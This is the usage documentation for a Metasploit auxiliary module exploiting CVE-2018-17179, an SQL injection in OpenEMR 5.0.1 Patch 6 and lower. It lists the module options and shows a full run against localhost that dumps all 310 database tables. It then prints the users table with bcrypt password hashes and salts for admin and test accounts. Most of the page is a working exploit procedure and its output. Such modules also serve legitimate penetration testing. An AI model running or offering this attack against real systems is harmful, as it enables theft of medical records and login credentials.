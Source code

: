 ## Intro

This module exploits a SQLi vulnerability found in
OpenEMR version 5.0.1 Patch 6 and lower. The
vulnerability allows the contents of the entire
database (with exception of log and task tables) to be
extracted.

This module saves each table as a `.csv` file in your
loot directory and has been tested with
OpenEMR 5.0.1 (3).


## Author

Will Porter (will.porter@lodestonesecurity.com) from Lodestone Security


## References

https://www.cvedetails.com/cve/CVE-2018-17179/
https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617


## Options

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /openemr         yes       The base path to the OpenEMR installation
   VHOST                       no        HTTP server virtual host
```

## Usage

This module has both `check` and `run` functions.

```
msf5 > use auxiliary/sqli/openemr/openemr_sqli_dump
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > check

[*] Trying to detect installed version
[*] 127.0.0.1:80 - The target appears to be vulnerable.
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 127.0.0.1

[*] DB Version: 10.3.15-MariaDB-1
[*] Enumerating Tables, this may take a moment...
[*] Identified 310 tables.
[*] Dumping table (1/310): ALL_PLUGINS
[*] Dumping table (2/310): APPLICABLE_ROLES
[*] Dumping table (3/310): CHARACTER_SETS
[*] Dumping table (4/310): CHECK_CONSTRAINTS
[*] Dumping table (5/310): COLLATIONS

...

[*] Dumping table (305/310): medex_recalls
[*] Dumping table (306/310): syndromic_surveillance
[*] Dumping table (307/310): lang_constants
[*] Dumping table (308/310): gacl_acl_seq
[*] Dumping table (309/310): background_services
[*] Dumping table (310/310): geo_country_reference
[*] Dumped all tables to /root/.msf4/loot
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > exit

root@localhost:/tmp# cd /root/.msf4/loot
root@localhost:~/.msf4/loot# cat 20190904164551_default_127.0.0.1_openemr.db.users_659759.bin
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,admin,$2a$05$bxcQWy1ZeIwV2/ScGBQlTOeUVqJo9MdvHuF1mBs4Jo7H0/bFpZoPK,$2a$05$bxcQWy1ZeIwV2/ScGBQlTZ$,2019-08-27 20:07:13,"","","",""
4,johndoemsf,$2a$05$gUWCtnsoqPBbn5zKiasyaOphgJwkA9BySy7LnK3BswyWt0RrLb0Ma,$2a$05$gUWCtnsoqPBbn5zKiasyaQ$,2019-08-29 02:01:28,"","","",""
6,johnderp,$2a$05$nAHQ7japfATDqqgArPImlu5svMG79W1nj1SNBpE7xkEhS42.AvlWq,$2a$05$nAHQ7japfATDqqgArPImlv$,2019-08-29 02:02:32,"","","",""
7,janedoemsf,$2a$05$uv85uBLeAOWQWWl9hHGL0uUy1KZSTgNGbZfJ9o8Lg0ILuSeGCNDbm,$2a$05$uv85uBLeAOWQWWl9hHGL06$,2019-08-29 02:09:37,"","","",""
```
